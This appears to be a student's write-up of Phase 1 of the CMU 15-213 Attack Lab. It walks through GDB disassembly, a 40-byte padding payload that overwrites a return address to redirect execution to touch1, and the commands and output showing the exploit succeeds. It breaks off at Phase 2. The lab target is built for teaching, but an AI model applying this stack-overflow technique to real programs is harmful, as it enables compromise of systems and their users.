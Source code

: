 ```yaml
---
title: Attack Lab
author: Arjun
date: 2024-08-01
tags: assembly, low-level
---
```


## Overview

A lab assignment from CMU's [15-213 course](https://www.cs.cmu.edu/afs/cs/academic/class/15213-f22/www/schedule.html).

You can find the assignment [here](https://csapp.cs.cmu.edu/3e/labs.html)

Note: This is the 64-bit successor to the 32-bit Buffer Lab. Students are given a pair of unique custom-generated x86-64 binary executables, called targets, that have buffer overflow bugs. One target is vulnerable to code injection attacks. The other is vulnerable to return-oriented programming attacks. Students are asked to modify the behavior of the targets by developing exploits based on either code injection or return-oriented programming. This lab teaches the students about the stack discipline and teaches them about the danger of writing code that is vulnerable to buffer overflow attacks.


### Phase 1

Running `disas getbuf` inside GDB outputs the following

```c
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq
```

We can see that `0x28` (40) bytes has been allocated for `getbuf`.  
We have to pad 40 bytes followed by the return address

`disas touch1`

```c
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:     sub    $0x8,%rsp
   0x00000000004017c4 <+4>:     movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:    mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:    callq  0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:    mov    $0x1,%edi
   0x00000000004017dd <+29>:    callq  0x401c8d <validate>
   0x00000000004017e2 <+34>:    mov    $0x0,%edi
   0x00000000004017e7 <+39>:    callq  0x400e40 <exit@plt>
```

The return address should be `0x00000000004017c0`.

We add the following to `input.txt`

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

Then we run `./hex2raw < input.txt > output.txt`
Followed by, `./ctarget -q < output.txt`

```
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
```

### Phase 2